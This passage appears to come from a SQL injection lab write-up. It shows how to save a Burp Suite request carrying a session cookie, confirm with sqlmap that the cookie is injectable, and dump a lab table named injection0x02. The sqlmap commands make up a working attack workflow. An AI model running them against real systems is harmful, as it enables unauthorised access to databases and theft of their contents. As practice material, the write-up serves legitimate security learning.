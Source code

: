 We will still be needing `burpsuite` and `sqlmap` for this lab

We can go ahead and save the request with the **cookie: session**

![](https://i.imgur.com/z8YOsfh.png)


Using this query `$ sqlmap -r request.txt --level=2` we can see that the `sqlmap` tells us that the cookie parameter is vulnerable with more information given

![](https://i.imgur.com/AnmRLEd.png)


We can then attempt to dump the table of **"Injection 0x02"** by using this command as shown below

```bash
-r : request file
--level=2 : 
$ sqlmap -r request.txt --level=2 --dump -T injection0x02
```